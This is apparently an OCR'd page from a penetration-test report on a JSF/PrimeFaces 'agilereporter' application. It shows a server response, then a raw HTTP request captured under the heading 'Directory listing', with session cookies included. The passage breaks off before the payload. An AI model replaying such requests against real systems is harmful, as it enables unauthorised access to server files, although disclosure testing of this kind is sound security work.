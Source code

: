 <div class="ui-widget-header ui-datatable-scrollable-footer"><div class="ui-datatable-scrollable-footer-box"><table role="grid"></table></div></div><div id="importFileForm:ImportInfoTable\_paginator\_bottom" class="ui-paginator ui-paginator-bottom ui-widget-header ui-corner-bottom" role="navigation" aria-label="Pagination"><a href="#" class="ui-paginator-first ui-state-default ui-corner-all ui-state-disabled" aria-label="First Page" tabindex="-1"><span class="ui-icon ui-icon-seek-first">F</span></a><a href="#" class="ui-paginator-prev ui-state-default ui-corner-all ui-state-disabled" aria-label="Previous Page" tabindex="-1"><span class="ui-icon ui-icon-seek-prev">P</span></a><span class="ui-paginator-pages"><a class="ui-paginator-page ui-state-default ui-state-active ui-corner-all" tabindex="0" href="#">1</a><a class="ui-paginator-page ui-state-default ui-corner-all" tabindex="0" href="#">2</a><a class="ui-paginator-page ui-state-default ui-corner-all" tabindex="0" href="#">3</a><a class="ui-paginator-page ui-state-default ui-corner-all" tabindex="0" href="#">4</a><a class="ui-paginator-page ui-state-default ui-corner-all" tabindex="0" href="#">5</a><a class="ui-paginator-page ui-state-default ui-corner-all" tabindex="0" href="#">6</a><a class="ui-paginator-page ui-state-default ui-corner-all" tabindex="0" href="#">7</a></span><a href="#" class="ui-paginator-next ui-state-default ui-corner-all" aria-label="Next Page" tabindex="0"><span class="ui-icon ui-icon-seek-next">N</span></a><a href="#" class="ui-paginator-last ui-state-default ui-corner-all" aria-label="Last Page" tabindex="0"><span class="ui-icon ui-icon-seek-end">E</span></a><label id="importFileForm:ImportInfoTable:j\_id156\_rppLabel" for="importFileForm:ImportInfoTable:j\_id156" class="ui-paginator-rpp-label ui-helper-hidden">Rows Per Page</label><select id="importFileForm:ImportInfoTable:j\_id156" name="importFileForm:ImportInfoTable\_rppDD" aria-labelledby="importFileForm:ImportInfoTable:j\_id156\_rppLabel" class="ui-paginator-rpp-options ui-widget ui-state-default ui-corner-left" autocomplete="off"><option value="5">5</option><option value="10" selected="selected">10</option><option value="20">20</option></select></div><input type="hidden" id="importFileForm:ImportInfoTable\_scrollState" name="importFileForm:ImportInfoTable\_scrollState" autocomplete="off" value="0,0" /></div><script id="importFileForm:ImportInfoTable\_s" type="text/javascript">PrimeFaces.cw("DataTable","ImportInfoTableVar",{id:"importFileForm:ImportInfoTable",paginator:{id:['importFileForm:ImportInfoTable\_paginator\_bottom'],rows:10,rowCount:64,page:0,currentPageTemplate:'({currentPage} of {totalPages})',pageLinks:20},scrollable:true,liveScroll:false,scrollStep:0,scrollLimit:64,liveScrollBuffer:0,virtualScroll:false,touchable:false,sorting:true,multiSort:true,sortMetaOrder:[''],groupColumnIndexes:[],disableContextMenuIfEmpty:false});</script>]]></update><update id="importFileForm:listimportBtn"><![CDATA[<button id="importFileForm:listimportBtn" name="importFileForm:listimportBtn" class="ui-button ui-widget ui-state-default ui-corner-all ui-button-text-only btn-blue-darken" onclick="PrimeFaces.ab({s:&quot;importFileForm:listimportBtn&quot;,f:&quot;importFileForm&quot;,u:&quot;growl importFileForm executionGroupsForm executionItemsForm&quot;,onco:function(xhr,status,args,data){importNewHandleComplete(xhr, status, args); ;}});return false;" style="margin-right:10px;" type="submit"><span class="ui-button-text ui-c">Import</span></button><script id="importFileForm:listimportBtn\_s" type="text/javascript">PrimeFaces.cw("CommandButton","widget\_importFileForm\_listimportBtn",{id:"importFileForm:listimportBtn"});</script>]]></update><update id="j\_id1:javax.faces.ViewState:0"><![CDATA[-1207254338988663714:6479361099775717792]]></update><update id="j\_id1:javax.faces.ClientWindow:0"><![CDATA[-3091]]></update><eval><![CDATA[resetSessionTimer();]]></eval></changes></partial-response> 2. Directory listingRequestPOST /agilereporter/core/page/admin/config/configPackageBinding.xhtml?dswid=-3091 HTTP/1.1Host: *...removed by tester*Cookie: primefaces.download=true; JSESSIONID=0C-36ywhTHY\_iTtHmixjOwS5qt8jhSSDg3va51N5.sgazrapp008; ApplicationGatewayAffinityCORS=a317a76f28f83936cb54aa5701a2aabd; ApplicationGatewayAffinity=a317a76f28f83936cb54aa5701a2aabdUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0Accept: application/xml, text/xml, \*/\*; q=0.01Accept-Language: en-US,en;q=0.5Accept-Encoding: gzip, deflateFaces-Request: partial/ajaxX-Requested-With: XMLHttpRequestContent-Type: multipart/form-data; boundary=---------------------------22114693211599442001093007703Content-Length: 11350Origin: https:// *...removed by tester*Dnt: 1Referer: https:// *...removed by tester* /agilereporter/core/page/admin/config/configPackageBinding.xhtml?dswid=-3091Sec-Fetch-Dest: emptySec-Fetch-Mode: corsSec-Fetch-Site: same-originTe: trailersConnection: close -----------------------------22114693211599442001093007703Content-Disposition: form-data; name="importFileForm" importFileForm-----------------------------22114693211599442001093007703Content-Disposition: form-data; name="importFileForm:ImportInfoTable\_rppDD" 10-----------------------------22114693211599442001093007703Content-Disposition: form-data; name="importFileForm:ImportInfoTable\_scrollState" 0,0-----------------------------22114693211599442001093007703Content-Disposition: form-data; name="javax.faces.ViewState" -1207254338988663714:6479361099775717792-----------------------------22114693211599442001093007703Content-Disposition: form-data; name="javax.faces.ClientWindow" -3091-----------------------------22114693211599442001093007703Content-Disposition: form-data; name="javax.faces.partial.ajax" true-----------------------------22114693211599442001093007703Content-Disposition: form-data;